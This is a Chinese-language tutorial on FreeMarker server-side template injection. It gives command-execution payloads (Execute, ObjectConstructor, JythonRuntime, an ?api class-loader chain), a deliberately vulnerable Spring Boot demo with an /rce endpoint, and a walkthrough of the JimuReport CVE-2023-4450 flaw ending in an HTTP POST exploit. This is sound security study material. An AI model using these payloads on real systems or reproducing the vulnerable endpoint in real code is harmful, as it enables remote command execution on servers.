

# FreeMarker 模板注入

FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的、专用的语言，不是像PHP那样成熟的编程语言。这意味着要通过编程语言来准备数据，比如数据库查询和业务运算，之后模板负责显示。在模板中，你可以专注于如何展现数据，而在模板之外可以专注于数据的处理。

<figure markdown="span">
    {width=60% loading=lazy}
</figure>

## 基础语法

参考 [官方文档](https://freemarker.apache.org/docs/index.html)

**变量**

\${varname}

**条件语句**

```html
<#if condition>
    ...
<#elseif condition2>
    ...
<#elseif condition3>
    ...
<#else>
    ...
</#if>
```

**循环语句**

```html
<#list users as user>
    <p>${user}
</#list>
```

**include**

```html
<html>
    <head>
        <title>Test page</title>
    </head>
    <body>
        <h1>Test page</h1>
        <p>Blah blah...
        <#include "/test.html">
    </body>
</html>
```

## 内置函数

FreeMarker 内置了 new 函数，可以创建任意实现了`TemplateModel`接口的Java对象，同时还可以触发没有实现`TemplateModel`接口的类的静态初始化块。

主要的利用例如：

```html title="PoC"
<!-- assign 为赋值操作 -->

<!-- 执行系统命令 -->
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<!-- 实例化对象 -->
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

<!-- 执行 Python 代码 -->
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## API

`value?api` 提供对 value 的 API（通常是 Java API）的访问，例如 `value?api.someJavaMethod()` 或 `value?api.someBeanProperty`。可通过 `getClassLoader`获取类加载器从而加载恶意类，或者也可以通过 `getResource`来实现任意文件读取。

但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

```html title="PoC"
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

## 漏洞复现

### Demo

=== "freemarker"

    ```java
    package cc.colemak.springssti;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;

    @SpringBootApplication
    public class freemarker {
        public static void main(String[] args) {
            SpringApplication.run(freemarker.class, args);
        }
    }
    ```

=== "TemplateController"

    ```java
    package cc.colemak.springssti.controller;

    import freemarker.cache.StringTemplateLoader;
    import org.springframework.ui.Model;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RequestParam;

    import java.util.Map;


    @Controller
    public class TemplateController {
        @RequestMapping(value = "/rce")
        public String rce(@RequestParam("cmd") String cmd, Model model)
        {
            model.addAttribute("cmd",cmd);
            return "rce";
        }
    }
    ```

=== "/resources/templates/rce.ftl"

    ```html
    <!DOCTYPE html>
    <html lang=\"en\">
    <head>
        <meta charset=\"UTF-8\">
        <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("${cmd}") }
        <title>Hello!</title>
    </head>
    <body>
    <h2 class=\"hello-title\">Hello!</h2>
    </body>
    </html>
    ```

=== "pom.xml"

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
        <parent>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-parent</artifactId>
            <version>3.3.2</version>
            <relativePath/> <!-- lookup parent from repository -->
        </parent>
        <groupId>cc.colemak</groupId>
        <artifactId>SpringSSTI</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>SpringSSTI</name>
        <description>SpringSSTI</description>
        <url/>
        <licenses>
            <license/>
        </licenses>
        <developers>
            <developer/>
        </developers>
        <scm>
            <connection/>
            <developerConnection/>
            <tag/>
            <url/>
        </scm>
        <properties>
            <java.version>22</java.version>
        </properties>
        <dependencies>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-freemarker</artifactId>
            </dependency>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-web</artifactId>
            </dependency>

            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-test</artifactId>
                <scope>test</scope>
            </dependency>
        </dependencies>

        <build>
            <plugins>
                <plugin>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-maven-plugin</artifactId>
                </plugin>
            </plugins>
        </build>

    </project>
    ```

=== "application.properties"

    ```properties
    spring.application.name=SpringSSTI
    server.port=8086
    spring.freemarker.suffix=.ftl
    ```

**复现成功**


freemarker 模板注入需要控制 ftl 模板内容，仅靠传参无法实现，因此较难利用。

### jimureport SSTI

积木报表（JimuReport）是一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

环境使用 [vulhub](https://github.com/vulhub/vulhub/tree/1d932c52b9eb257de8c8a20ba7696a598157ef8f/jimureport/CVE-2023-4450){:target="_blank"} 搭建。

漏洞位于 `/jimureport/queryFieldBySql` ，搜索定位到类`org.jeecg.modules.jmreport.desreport.a.a`，在其中 `c` 方法负责处理模板内容。

```java
package org.jeecg.modules.jmreport.desreport.a;

@RestController("designReportController")
@RequestMapping({"/jmreport"})
public class a {
    
    ...

    @PostMapping({"/queryFieldBySql"})
    public Result<?> c(@RequestBody JSONObject var1) {
        a.debug("============解析sql==========");
        String var2 = var1.getString("sql");

        try {
            i.a(var2); // 过滤 sql 注入
        } catch (JimuReportException var10) {
            a.error(var10.getMessage(), var10);
            return Result.error(var10.getExceptionCode(), "SQL解析失败：" + var10.getMessage());
        }

        String var3 = var1.getString("dbSource");
        Object var4 = var1.get("paramArray");
        String var5 = var1.getString("type");
        Integer var6 = 0;
        JmreportDynamicDataSourceVo var7 = null;
        if (g.c(var3) && this.jmBaseConfig.getSaas()) {
            return Result.error(1001, "数据源不允许为空，请选择数据源！");
        } else {

            ... // 检测数据源是否存在

            // 解析传入的 sql
            Map var12 = this.reportDbService.parseReportSql(var2, var3, var4, var5); 
            
            ...
        }
    }
    ...
}
```

在经过一系列检测后，调用 `org.jeecg.modules.jmreport.desreport.service.a.i#parseReportSql`

```java
    public Map<String, Object> parseReportSql(String sql, String dbKey, Object paramArray, String type) throws JimuReportException {
        HashMap var5 = new HashMap(5);
        new ArrayList();
        String var7 = this.jimuTokenClient.getToken();
        Map var8 = null;
        if (g.d(var7)) // g.d 是字符串的一些处理
        {
            var8 = this.jimuTokenClient.getUserInfo(var7);
        }

        if (g.d(paramArray)) {
            sql = f.a(sql, var8, JSONArray.parseArray(paramArray.toString()));
        } else {
            sql = f.a(sql, var8, (JSONArray)null);
        }

        ...
    }
```

根据调试发现在执行完`f.a`后命令触发，因此在此处下断点进入

=== "a(String, Map<String, Object>, JSONArray)"

    ```java
    // var0 为 sql 语句，va1 为 UserInfo，var2 为 paramArray
    public static String a(String var0, Map<String, Object> var1, JSONArray var2) {
        if (var0 != null && !"".equals(var0)) {

            // 去除结尾分号
            if (var0.endsWith(";")) {
                var0 = var0.substring(0, var0.length() - 1);
            }
            
            i.a(var0); // sql 注入过滤

            var0 = b(var0, var1); // 根据 var1 映射，将 var0 中的 “#{xxx}” 替换为对应的值
            var0 = a(var2, var0); // 
            var0 = a(var0, "\\$");
            return var0;
        } else {
            throw new JimuReportException("sql为空");
        }
    }
    ```

=== "b(String, Map<String, Object>)"

    ```java
    // var0 为 sql 语句，var1 为 UserInfo
    public static String b(String var0, Map<String, Object> var1) {
        if (var1 != null) // 此时 var1 不为 null，进入 if 逻辑
        {
            Set var2 = a(var0); // 正则匹配 var 0 中的 “#{xxx}”（变量）
            if (null != var2 && var2.size() > 0) {
                Iterator var3 = var2.iterator();

                while(var3.hasNext()) {
                    String var4 = (String)var3.next();
                    if (var1.get(var4) != null) {
                        String var5 = var1.get(var4).toString(); // 获取变量值
                        var0 = var0.replace("#{" + var4 + "}", var5);
                    } else {
                        var0 = var0.replace("#{" + var4 + "}", "");
                    }
                }
            }
        } else {
            var0 = a(var0, "\\#");
        }

        return var0;
    }
    ```

=== "a(JSONArray, String)"

    ```java
    // var0 为 paramArray, var1 为 sql 语句
    public static String a(JSONArray var0, String var1) {

        // 匹配 sql 语句中的 ${xxx}
        HashMap var2 = new HashMap(5);
        String var3 = "\\$\\{(\\S+)\\}"; 
        Pattern var4 = Pattern.compile(var3);
        Matcher var5 = var4.matcher(var1);

        while(var5.find()) {
            String var6 = var5.group().replace("${", "").replace("}", "");
            var2.put(var6, var5.group());
        }

        // 遍历 paramArray 替换 ${xxx} 为对应值
        if (null != var0 && var0.size() > 0) {
            for(int var11 = 0; var11 < var0.size(); ++var11) {
                JSONObject var7 = var0.getJSONObject(var11);
                Object var8 = var7.get("paramName");
                Object var9 = var7.get("paramValue");
                String var10;
                if (g.d(var8) && g.d(var9)) {
                    var10 = ExpressUtil.a(String.valueOf(var9), (Map)null); 
                    // 计算 paramValue 的值，替换入 sql 语句中
                    var1 = var1.replace("${" + var8 + "}", var10);
                    var1 = var1.replace("'${" + var8 + "}'", var10);
                }

                // 将 paramArray 解析后的键值对放入 var2
                if (g.d(var8))
                {
                    if (g.d(var9))
                    {
                        var10 = ExpressUtil.a(String.valueOf(var9), (Map)null);
                        var2.put(String.valueOf(var8), var10); 
                    } else {
                        var2.put(String.valueOf(var8), "");
                    }
                }
            }
        }

        // FreeMarker 解析
        var1 = FreeMarkerUtils.a(var1, var2);
        return var1;
    }
    ```

注意到在`f#a(JSONArray, String)` 返回前调用了 `FreeMarkerUtils.a(var1, var2)`，进入该方法

```java title="org.jeecg.modules.jmreport.desreport.render.utils.FreeMarkerUtils#a"
    public static String a(String var0, Map<String, Object> var1) {
        if (var0 == null) {
            return null;
        } else {
            
            ···

            try {
                a.debug("模板内容:{}", var0.toString());
               
                // 新建 FreeMarker 模板，且内容 var0 为我们传入的 sql 语句
                // 随后立即进行 process 解析，var 1 为传入的键值对映射
                (new Template("template", new StringReader(var0), var2)).process(var1, var3);
                
                a.debug("模板解析结果:{}", var3.toString());
            } catch (TemplateException var5) {
                var5.printStackTrace();
            } catch (IOException var6) {
                var6.printStackTrace();
            }

            return var3.toString();
        }
    }
```

由此触发 RCE 漏洞。

``` title="PoC"
POST /jimureport/queryFieldBySql HTTP/1.1
...
{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"touch 1\")}'" }
```

<figure markdown="span">
    
    <figcaption> RCE 成功 </figcaption>
</figure>


## 参考资料

[Java安全之 freemarker 模板注入](https://www.cnblogs.com/nice0e3/p/16217471.html)
